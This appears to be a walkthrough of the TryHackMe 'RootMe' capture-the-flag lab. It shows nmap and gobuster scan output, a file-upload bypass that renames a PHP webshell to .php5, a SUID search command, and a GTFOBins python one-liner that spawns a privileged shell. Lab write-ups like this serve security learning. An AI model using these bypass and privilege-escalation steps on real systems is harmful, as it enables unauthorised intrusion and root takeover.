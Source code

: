 # TRYHACKME : Rootme

## RECONNAISSANCE
### NMAP
```
$ nmap -sVC 10.10.60.63     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 02:15 CST
Nmap scan report for 10.10.60.63
Host is up (0.40s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### GOBUSTER
```
/panel                (Status: 301) [Size: 310] [--> http://10.10.60.63/panel/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 310] [--> http://10.10.60.63/uploads/]
```

The panel site gives us an upload page. This means webshell upload!

## GETTING A SHELL
Prepare your php webshell file. You can use the existing ones from kali linux.

I doesn't allow a `.php` file. Let's try tweaking it by renaming the webshell's file extention into `.png`

It finally accepts the file after resubmitting!

Start your netcat listener.

From previous gobuster, the `/uploads` is definitely storing uploads.

The shell won't load. Let's try renaming the extension into another php extension. I renamed it into `.php5`

Let's head again to the upload files.

It worked!

Finally let's retrieve the flag from `user.txt`.

## PRIVILEGE ESCALATION

The room gave us a clue of finding the SUID permission. `find / -user root -perm /4000`

The most suspicious file would be the python one. 

Search at the GTFOBins about python suid:
```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Use the following command and retrieve the flag from `/root/root.txt`
